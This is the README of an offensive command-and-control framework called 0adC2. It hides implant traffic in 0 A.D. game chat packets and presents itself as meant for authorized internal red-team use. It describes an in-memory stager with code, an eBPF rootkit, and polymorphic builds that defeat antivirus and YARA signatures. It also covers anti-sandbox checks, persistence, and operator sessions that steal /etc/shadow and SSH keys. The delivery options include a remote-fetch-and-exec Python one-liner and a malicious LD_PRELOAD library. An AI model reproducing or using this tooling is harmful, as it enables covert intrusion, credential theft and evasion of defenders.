






# 0adC2

Command & Control framework that hides its communications inside the network traffic of the open-source game **0 A.D.** (Empires Ascendant).

**Context**: Authorized internal offensive security use only.

---

## Table of Contents

1. [Overview](#1-overview)
2. [Architecture](#2-architecture)
3. [0AD Protocol](#3-0ad-protocol)
4. [Encryption](#4-encryption)
5. [NMT_CHAT Steganography](#5-nmt_chat-steganography)
6. [Staging Chain](#6-staging-chain)
7. [Polymorphism & IOCs](#7-polymorphism--iocs)
8. [Evasion Techniques](#8-evasion-techniques)
9. [Build](#9-build)
10. [Deployment](#10-deployment)
11. [Operator Commands](#11-operator-commands)
12. [Agent Delivery](#12-agent-delivery)
13. [UDP/0AD vs HTTPS](#13-udp0ad-vs-https)
14. [Known Detection Surface](#14-known-detection-surface)
15. [References](#15-references)

---

## 1. Overview

0adC2 exploits the fact that the 0 A.D. network protocol (ENet UDP, port 20595) is rare in SOC signature databases, has no TLS fingerprint, is not inspected by enterprise SSL proxies, and has a legitimate traffic baseline.



**What a network analyst sees**: two players connected to a 0AD server, sending heartbeats every 200ms and occasionally typing natural-looking chat messages ("gg", "gl hf", "good game!").

**What is actually happening**: ECDH-encrypted beacon, command execution, file exfiltration — all base62-encoded inside the GUID field of NMT_CHAT packets.

---

## 2. Architecture

### Components

| File | Role | Prod size |
|------|------|-----------|
| `agent.c` | Implant on the target | ~200 KB stripped |
| `ctrl.c` | Operator interface (readline, multi-agent) | ~100 KB |
| `c2_proto.h` | Full protocol — NMT, steganography, ECDH, handshake | single header |
| `stager.c` | Minimal dropper — loads agent into memory via TCP staging | ~14 KB stripped |
| `stage_srv.c` | Staging server — serves the encrypted agent to stagers | ~50 KB |
| `bpf_rootkit.bpf.c` | eBPF rootkit — hides PID + UDP port in /proc | embedded bytecode |
| `bpf_load.h` | Minimal ELF BPF loader (no libbpf) | header |
| `gen_agent_iocs.py` | Generates polymorphic IOCs (XOR keys, player names) | build script |
| `gen_agent_str.py` | Generates OBF_MSGS blob (encrypted fake chat) | build script |
| `gen_bpf_hdr.py` | Encrypts BPF bytecode and generates `bpf_rootkit_obj.h` | build script |
| `gen_obf.py` | Encrypts stager constants (host/port/key) | build script |
| `obf_agent_msgs.txt` | Pool of 23 fake chat messages (plaintext source) | text |
| `obf_config.txt` | Stager parameters (host, port, key) | config |

### Protocol layers



---

## 3. 0AD Protocol

### Full handshake (maximum fidelity)

The agent fully replicates the 0AD handshake to remain undetected against a real server or a Wireshark analyst familiar with the protocol.



**Fidelity key points:**
- `NMT_AUTHENTICATE`: deterministic GUID (`FNV32(name)` formatted as hex UUID) — never empty
- `NMT_END_COMMAND_BATCH`: sent every ~200ms with ±10ms jitter, incremental turn counter
- `NMT_SYNC_CHECK`: replied with same turn + stable session hash (`FNV32(key) ^ aid_hash`)
- Fake chats (`send_plain_chat`): sent every 5-15 min from the OBF_MSGS pool

### NMT message types used

| Type | ID | Direction | Role |
|------|----|-----------|------|
| NMT_CHAT | 6 | bidirectional | Primary C2 vector |
| NMT_END_COMMAND_BATCH | 26 | agent→srv | Game heartbeat (~200ms) |
| NMT_SYNC_CHECK | 27 | srv→agent + reply | State synchronization |
| NMT_FILE_TRANSFER_ACK | 15 | agent→srv | Map acknowledgment |
| NMT_LOADED_GAME | 23 | bidirectional | Load complete |
| NMT_REJOINED | 17 | agent→srv | Join game |

---

## 4. Encryption

### Bootstrap phase — static RC4

Used **only for the first KA** (Keep-Alive), before the ECDH exchange is complete. The KA carries the agent's X25519 public key, encrypted with the static shared key (passed as agent + ctrl parameter).

```
ciphertext = RC4(key=sha1(shared_key_ascii), plaintext=sysinfo)
```

### Post-ECDH phase — XSalsa20-Poly1305

After DH, each session has a unique key derived by:

```
shared     = X25519(ctrl_priv, agent_pub)
sess_key   = SHA-256(shared ‖ agent_pub ‖ ctrl_pub)   (96 bytes → 32 bytes)
ciphertext = crypto_secretbox_easy(plain, nonce_24_rand, sess_key)
wire       = nonce_24 ‖ mac_16 ‖ ciphertext
base62     = b62encode(wire)
```

**Properties:**
- Partial forward secrecy: ctrl keypair generated per session, agent keypair reused across connections but regenerated on each build
- AEAD: integrity + authentication + confidentiality
- Compromise of one session ≠ compromise of other sessions

### Staging session key derivation

The stager → stage_srv channel uses the same scheme:

```
shared     = X25519(stager_priv, srv_pub)
sess_key   = SHA-256(shared ‖ stager_pub ‖ srv_pub)
chunks     = [secretbox(4KB_chunk, nonce_rand, sess_key)]
```

Server keypair regenerated on each stager connection.

---

## 5. NMT_CHAT Steganography

### NMT_CHAT wire format (native 0AD)

```
[type:u8=6] [seq:u16 BE] [payload...]
payload :=
    [sender_len:u32 BE] [sender:bytes]   ← cstr ASCII
    [message_len:u32 BE] [message:bytes] ← cstrw UTF-16 BE
```

### Steganography scheme — C2 in the sender field

```
C2 packet:
  sender  = [type_char] + [body_base62]   ← never displayed in the 0AD UI
  message = "good game!" / "gl hf" / ...  ← only visible field in chat

Fake chat (cover traffic):
  sender  = "3f2a1b4c-0042-ab3e-..."       ← hex GUID (0-9/a-f) → v4_parse returns 0
  message = "anyone here?" / "nice one" / ...
```

**Why the sender field is not shown in the 0AD UI:**
The sender field of NMT_CHAT is the sending player's GUID, resolved by the server to a display name. Spectators and other clients see the resolved name, not the raw GUID.

**No collision with legitimate GUIDs:**
A real 0AD UUID contains only `[0-9a-f-]`. C2 type indicators use `'g'-'n'` (0x67–0x6E) — outside the hex range. A parser reading the first byte of the sender field immediately distinguishes the two cases.

### Type indicators

| Char | Hex | Type | Direction | Body structure (base62) |
|------|-----|------|-----------|-------------------------|
| `g` | 0x67 | DLRQ | ctrl→agent | `tok8` + `tgt` + `phash8` + `secretbox(path)` |
| `h` | 0x68 | CTL  | ctrl→agent | `tok8` + `tgt` + `secretbox(ctl_command)` |
| `i` | 0x69 | DH   | ctrl→agent | `tok8` + `T` + `aid8` + `ctrl_pub_b62(64)` |
| `j` | 0x6A | CMD  | ctrl→agent | `tok8` + `tgt` + `secretbox(shell_command)` |
| `k` | 0x6B | RSP  | agent→ctrl | `aid8` + `jid4` + `seq4` + `tot4` + `secretbox(chunk)` |
| `l` | 0x6C | KA   | agent→ctrl | `tok8` + `aid8` + `pub_b62(64)` + `rc4(sysinfo)` |
| `m` | 0x6D | DL   | agent→ctrl | `aid8` + `phash8` + `seq4` + `tot4` + `secretbox(chunk)` |
| `n` | 0x6E | UL   | ctrl→agent | `tok8` + `tgt` + `phash8` + `seq4` + `tot4` + `secretbox(chunk)` |

Fields:
- `tok8`: `FNV32(shared_key)` encoded as 8 base62 chars — static authentication
- `aid8`: `FNV32(agent_id)` encoded as 8 base62 chars — agent identifier
- `tgt`: `'W'` (wildcard = all agents) or `'T'` + `aid8` (targeted)
- `phash8`: `FNV32(path)` — file transfer identifier
- `jid4`/`seq4`/`tot4`: job id, chunk number, total chunks

### Full ECDH flow



---

## 6. Staging Chain

The stager is the first artifact placed on the target. It is minimal (~14 KB), has no libenet, and loads the full agent **into memory** without ever writing to disk.

### Architecture



### Stager protocol (TCP)



### In-memory execution

```c
// stager.c
int mfd = memfd_create("[kworker/0:2]", 0);  // never on disk
// ... write decrypted agent into mfd
char *argv[] = { "systemd-journald", host, port, player, key, NULL };
fexecve(mfd, argv, environ);                 // exec from RAM
// Fallback if fexecve fails (old kernel):
execve("/proc/self/fd/<n>", argv, environ);
```

The `memfd`:
- Does not appear in `ls /tmp`, `/var`, etc.
- The name `[kworker/0:2]` mimics a kernel thread in `/proc/PID/maps`
- Cannot be `unlink`ed (no filesystem path)
- `argv[0]` = `"systemd-journald"` (16 chars) → space for the agent's `spoof_name()` to overwrite with a kworker name

### Starting the staging server

```bash
# Operator side — start before the stager
./stage_srv ./agent 20596

# Custom port
./stage_srv ./agent 9443
```

---

## 7. Polymorphism & IOCs

Two levels of polymorphism are available, targeting different detection surfaces.

### Level 1 — IOC polymorphism (`make fresh_all`)

Every `make fresh` / `make fresh_all` regenerates a set of random IOCs. Produced binaries have the **same compiled code** but **different data** — static signatures (hash, strings, YARA on data) vary with each build.

| IOC | Mechanism | Generator |
|-----|-----------|-----------|
| `SB_KEY` (0x80–0xFF) | XOR key for sandbox/proto strings | `gen_agent_iocs.py` |
| `PN_KEY` (0x80–0xFF) | XOR key for process names | `gen_agent_iocs.py` |
| BPF bytecode XOR key | Rolling XOR on the embedded bytecode | `gen_bpf_hdr.py` |
| 20 player names | Drawn from 194 bases, mutated (letter/digit prefix/suffix) | `gen_agent_iocs.py` |
| OBF_MSGS blob seed | Random rolling-XOR seed on the fake chat pool | `gen_agent_str.py` |
| Stager constants | Host/port/key XOR-encrypted, random seed | `gen_obf.py` |

#### Key protection in the binary

XOR keys are not stored whole. Example for `SB_KEY`:

```c
// obf_agent_iocs.h (generated)
static volatile uint8_t _k_sb_hi = 0xBu;  // high nibble
static volatile uint8_t _k_sb_lo = 0x3u;  // low nibble
#define SB_KEY ((uint8_t)((_k_sb_hi << 4) | _k_sb_lo))
```

- `volatile`: prevents constant-folding by GCC/Clang even at `-O2`
- No `0xB3` anywhere in the binary
- Resistant to `strings` grep or YARA scan on the key value

#### Player name pool

194 historical and gamer bases, mutated on each build:
```
caesar → caesar7x    leonidas → 42leonidas
saladin → lssaladin  spartan → 93spartan
```
No YARA rule on a specific player name matches two consecutive builds.

### Level 2 — Binary polymorphism (`make poly_debug` / `make poly_all`)

Each `make poly_*` invocation produces a binary with **genuinely different x86_64 opcodes** — not just different data. Two consecutive poly builds have different SHA256 and share no byte signature in `.text`.

**5 combined layers:**

| Layer | Mechanism | Executes? | Defeats |
|-------|-----------|-----------|---------|
| CFG method selection (`poly_cfg.h`) | `gen_poly_cfg.py` picks random values for `POLY_DAEMON`, `POLY_EXEC_CMD`, `POLY_HIDE_NAME`, `POLY_SILENTPULSE` — different code paths compiled each build | ✅ real code | Static + dynamic analysis |
| Dead-code junk stubs | `gen_poly_stubs.py` generates 6–14 `__attribute__((noinline))` functions with random constants + random CFG templates (linear, branch, loop, byte-array, nested). Referenced via `POLY_CALL_CHAIN` guard that is always false → never executes, but GCC emits real `CALL` instructions | ❌ never | Static signature / YARA |
| Live idempotent junk macros | `gen_poly_stubs.py` also generates 3–5 `_POLY_LIVE_*` macros inserted at hot call sites (`handle_chat`, main loop, KA send). Execute unconditionally, zero observable effect (`volatile` + result discarded). Templates: accumulator+POLY_DEAD_CONST branch, rotate-XOR, byte-view, arithmetic chain | ✅ always | Dynamic analysis / coverage |
| GCC internal randomization | `-frandom-seed=<rand>`, `-fstack-reuse=none`, `-falign-functions=<4/8/16/32>`, `-falign-loops=<4/8/16/32>` | n/a | Stack layout, instruction scheduling, loop alignment |
| IOC randomization | Same as Level 1 | n/a | Static strings / keys |

**Why two junk layers?**

- *Dead junk* changes what bytes are in `.text` → AV byte-pattern signatures and YARA rules fail.
- *Live junk* changes what the execution trace looks like → dynamic analysis tools (Cuckoo, coverage-based binary rewriters like BOLT/angr) that strip "never-executed" blocks cannot eliminate it.

```
POLY_CALL_CHAIN(g_aid_hash)        ← dead junk: guard always false, but CALL emitted
                                     (varies .text bytes per build)

while(1) {
    POLY_LIVE_ALL(g_turn);         ← live junk: executes every 50ms, no effect
    ...                              (varies execution trace per build)
    POLY_LIVE_ALL(g_aid_hash);     ← live junk: executes every KA interval
}
```

```bash
# Two consecutive poly builds — different SHA256, different opcodes, different traces:
make poly_debug   # sha256: f4a60a94...  (8 dead stubs, 3 live macros, DAEMON=3)
make poly_debug   # sha256: a7f66cc2...  (14 dead stubs, 5 live macros, DAEMON=1)
```

### Display player names from a build

```bash
make show_players
#   _pn0: constantiusy65
#   _pn1: 359maecenas
#   _pn2: onagerjs
#   ...
```

---

## 8. Evasion Techniques

### Agent — process level

| Technique | Implementation | Bypasses |
|-----------|----------------|---------|
| Double-fork daemon | `fork()×2` + `setsid()`, PPID=1, stdin/stdout → `/dev/null` | Orphan detection, terminal traces |
| Process name spoof | `prctl(PR_SET_NAME, nm)` + `argv[0]` overwrite in memory | `ps`, `top`, `pgrep` |
| eBPF rootkit — process | `getdents64` hook → removes dirent64 entry for the PID | `ls /proc`, `ps`, `top` |
| eBPF rootkit — network | `openat`+`read` hook → patches `/proc/net/udp` on the fly | `netstat -uap`, `ss -upn` |
| `PR_SET_DUMPABLE=0` | No coredump, `/proc/PID/mem` inaccessible without `CAP_SYS_PTRACE` | Memory forensics |
| `loginuid` reset | Writes `4294967295` to `/proc/self/loginuid` | SSH/PAM trail in auditd |
| `oom_score_adj=-500` | Protected from OOM killer, consistent with a system daemon | Unexpected kill |
| Self-delete | `unlink(readlink("/proc/self/exe"))` before exec if on disk | Disk file scan |
| Timestomp | `utimensat()` aligns mtime/atime to `/bin/sh` | Forensic timeline |
| Cleaned environment | `clearenv()` then only HOME + PATH + TERM=dumb | `/proc/PID/environ` |
| Direct anti-ptrace | `syscall(__NR_ptrace, PTRACE_TRACEME)` without PLT | Debugger attach |

### Agent — memory & I/O

| Technique | Implementation | Bypasses |
|-----------|----------------|---------|
| io_uring network | `sendmsg()`/`recvmsg()` wrapped via IORING_OP_SENDMSG/RECVMSG | strace, auditd syscall filter, Falco |
| io_uring files | Open + read via IORING_OP_OPENAT + IORING_OP_READ | Falco kprobe `openat`/`read` |
| io_uring sleep | `IORING_OP_TIMEOUT` instead of `nanosleep(2)` | Falco kprobe `nanosleep` |
| SQPOLL io_uring | `IORING_SETUP_SQPOLL` — zero syscalls for network submit | syscall trace (after setup) |
| SilentPulse | During long sleeps: XOR `.text` + `mprotect(RW)`, reverse after | eBPF memory scanner, .text signature |
| RWX stub | Autonomous stub copied into `mmap(RWX)` performs the XOR + sleep | Attribution via memory IP |
| `sodium_mlock()` | Session + private keys locked in RAM (no swap, no coredump) | Swap/hibernation forensics |
| Nibble-split XOR strings | All sensitive strings encoded with `SB_KEY`, decoded at runtime | `strings(1)`, static YARA |

### Agent — anti-analysis

| Check | Detects |
|-------|---------|
| Uptime < 5 min | Freshly started sandbox |
| Process count < 20 | Minimal environment |
| `TracerPid ≠ 0` | Active ptrace |
| DMI product_name | VirtualBox, VMware, QEMU, KVM, Xen, Bochs, Hyper-V |
| CPU cores < 2 | Single-core VM |
| MemTotal < 1 GB | Lightweight sandbox |
| RDTSC delta CPUID > 500k ticks | VM exit overhead |
| RDTSC delta 10×NOP > 50k ticks | Single-step debugger |
| CPUID bit 31 ECX (leaf 1) | Hypervisor present bit |
| `LD_PRELOAD` not empty | Frida, ltrace, sandbox hooking |
| `LD_AUDIT` / `LD_DEBUG` | Runtime instrumentation |
| `PTRACE_TRACEME` → `EPERM` | Tracer already attached |

### Network traffic

| Behavior | Detail |
|----------|--------|
| NMT_END_COMMAND_BATCH heartbeat | Every ~200ms, incremental turn counter, ±10ms jitter |
| Poisson KA distribution | Inter-arrival time exponentially distributed (mean 20s) — indistinguishable from spontaneous traffic |
| Fake chats | Natural messages (OBF_MSGS pool) every 5-15 min, sender = hex GUID |
| NMT_AUTHENTICATE GUID | Deterministic from player name (FNV32), valid UUID format |
| NMT_SYNC_CHECK | Replied with server turn + pseudo-stable session hash |
| Steganography | Message body = natural text displayed; C2 data in sender (invisible) |

---

## 9. Build

### Dependencies

```bash
sudo apt install libenet-dev libsodium-dev libreadline-dev clang python3
# Optional (BPF rootkit):
sudo apt install libbpf-dev bpftool
```

Check:

```bash
make check_deps
```

### Main targets

| Command | Output | Use case |
|---------|--------|----------|
| `make fresh_debug` | `agent_debug` + `ctrl` (new IOCs) | Testing, development |
| `make fresh` | stripped `agent` + `ctrl` (new IOCs) | Prod without stager |
| `make fresh_all` | `agent` + `ctrl` + `stager` + `stage_srv` (new IOCs everywhere) | **Before every operation** |
| `make fresh_all EXPIRE_DAYS=30` | Same + kill-date in 30 days compiled into agent | Time-constrained operations |
| `make fresh_all_debug` | `agent_debug` + `ctrl` + `stager` + `stage_srv` (new IOCs, unstripped) | Full debug build |
| `make poly_debug` | `agent_debug` + `ctrl` — **different x86 opcodes each run** | Evasion testing, signature defeat |
| `make poly_all` | All binaries — **different x86 opcodes each run** | Pre-op with binary poly |
| `make stager_fresh` | Stager only, new stager IOCs forced | Stager rotation only |
| `make agent_verbose` | Agent with all protocol traces on stderr | Protocol debugging |
| `make clean` | Remove binaries + generated headers | Full reset |

### Notable build options

```bash
# Kill-date: agent silently exits after the date
make fresh_all EXPIRE_DAYS=14

# Verbose build for protocol debugging
make agent_verbose
./agent_verbose <host> 20595 <key>   # detailed traces on stderr

# Check player names from current build
make show_players

# SHA256 hashes for IOC tracking
make hashes
```

### Agent variants

| Binary | Daemon | Sandbox | BPF rootkit | self_delete | Stripped |
|--------|--------|---------|-------------|-------------|---------|
| `agent` | yes | yes | yes | yes | yes |
| `agent_debug` | no | no | no | no | no |
| `agent_verbose` | no | no | no | no | no |

---

## 10. Deployment

### Recommended full flow

```bash
# 1. Build everything with new IOCs
make fresh_all EXPIRE_DAYS=30

# 2. Configure the stager (obf_config.txt)
cat config/obf_config.txt
# STAGE_HOST = 192.168.1.10
# STAGE_PORT = 20596
# AGENT_SRV_HOST = 10.0.0.5
# AGENT_SRV_PORT = 20595
# AGENT_PLAYER = theodoric2
# AGENT_KEY = MySecretKey42

make stager_fresh  # regenerate with new config

# 3. Operator side — start in order
./stage_srv ./agent 20596 &      # staging server
./ctrl 10.0.0.5 20595 Spectator42 MySecretKey42

# 4. Target side — run the stager
./stager   # or via chosen delivery technique

# 5. In ctrl, wait for KA then ECDH
# [KA]      theodoric2-a3f9  h=srv01|u=root|...
# [DH →]    theodoric2-a3f9
# [ECDH OK] theodoric2-a3f9
```

### Example ctrl session

```
0adc2> !agents
  theodoric2-a3f9c1e2  hash=b3a91f4d  seen=3s  ECDH✓

0adc2> !target theodoric2-a3f9c1e2
[*] Target: theodoric2-a3f9c1e2  [ECDH✓]

0adc2> id
[>>] id  (→ theodoric2-a3f9c1e2)

[theodoric2-a3f9c1e2 / job 1]
uid=0(root) gid=0(root) groups=0(root)
  [job 1 done, 1 chunks]

0adc2> !dl /etc/shadow

0adc2> !ul ./backdoor /usr/local/lib/.cache/svc-b3a91f4d

0adc2> !persist cron
0adc2> !persist bashrc

0adc2> !sleep 300

0adc2> !die
```

### Multi-agent management

```
0adc2> !agents
  theodoric2-a3f9    ECDH✓   seen=2s
  363maecenas-c1b7   ECDH✓   seen=8s
  onagerjs-5f2a      no DH   seen=1s   (KA received, DH in progress)

0adc2> !target *
0adc2> uptime        # sent to all agents with established ECDH

0adc2> !target theodoric2-a3f9
0adc2> cat /root/.ssh/id_rsa
```

---

## 11. Operator Commands

### ctrl commands

| Command | Description |
|---------|-------------|
| `<cmd>` | Execute `<cmd>` via `/bin/sh -c` on the targeted agent (ECDH encrypted, streamed) |
| `!agents` | List all known agents with ECDH status and last activity |
| `!target <id\|*>` | Target a specific agent or all (`*`) |
| `!jobs` | List active jobs on the targeted agent |
| `!kill <N>` | Send SIGKILL to job N |
| `!dl <path>` | Download a file from the agent (encrypted chunks, local reassembly) |
| `!ul <local> [<remote>]` | Upload a file to the agent (max 4 MB) |
| `!persist cron` | Persistence via user crontab (`@reboot`) |
| `!persist bashrc` | Persistence via `~/.bashrc` (interactive sessions) |
| `!persist systemd` | Persistence via `systemd --user` service |
| `!persist syscron` | Persistence via `/etc/cron.d/` (requires root) |
| `!persist profile` | Persistence via `/etc/profile.d/` (requires root) |
| `!sleep <N>` | Pause agent for N seconds (io_uring sleep, invisible to auditd) |
| `!die` | Kill the agent cleanly (sodium_memzero of keys, `_exit(0)`) |
| `!help` | Show help |
| `!quit` | Exit ctrl |

### Navigation

- `↑` / `↓`: command history (readline)
- `Ctrl-C`: interrupt ctrl (agents continue autonomously)
- `Tab`: completion (readline, if configured)

### File transfers

```bash
# Download — retrieve /etc/shadow to ctrl current directory
0adc2> !dl /etc/shadow
[DL OK] /etc/shadow → ./shadow (theodoric2-a3f9)

# Upload — send a binary to the agent
0adc2> !ul ./agent_v2 /usr/local/lib/.cache/svc-newbuild
[UL] ./agent_v2 → /usr/local/lib/.cache/svc-newbuild  (512000 bytes, 3200 chunks)
```

### Persistence methods

All persistence methods:
1. Copy the agent binary to `~/.local/share/.svc-<hash>` (or `/usr/local/lib/.cache/svc-<hash>` for root)
2. Apply timestomp (mtime/atime = `/bin/sh`)
3. Configure the chosen mechanism with the correct arguments (host, port, name, key)

---

## 12. Agent Delivery

The stager is the first artifact to place on the target. Options depend on context:

### Option A — Direct SSH/RCE access

```bash
# Copy stager, execute
scp stager user@target:/tmp/.s
ssh user@target '/tmp/.s && rm /tmp/.s'
```

### Option B — No disk write (curl + python)

```bash
# Python one-liner executing the stager in memory
# (simplified logic without ECDH — replace with full stager)
python3 -c "
import socket, os, ctypes, struct
libc = ctypes.CDLL(None)
mfd = libc.memfd_create(b'[kworker/0:2]', 0)
s = socket.create_connection(('<stage_srv>', 20596))
# ... receive + write into mfd
os.execve('/proc/self/fd/%d' % mfd,
          ['systemd-journald','<srv>','20595','<key>'], os.environ)
"
```

### Option C — LD_PRELOAD via malicious .so

```bash
# If a .so can be placed on the target
# The stager code runs from a __attribute__((constructor)) function in the .so
# Compile the stager logic as a position-independent shared object (concept):
gcc -shared -fPIC -nostartfiles -o /tmp/.l.so stager_preload.c
LD_PRELOAD=/tmp/.l.so /bin/ls
```

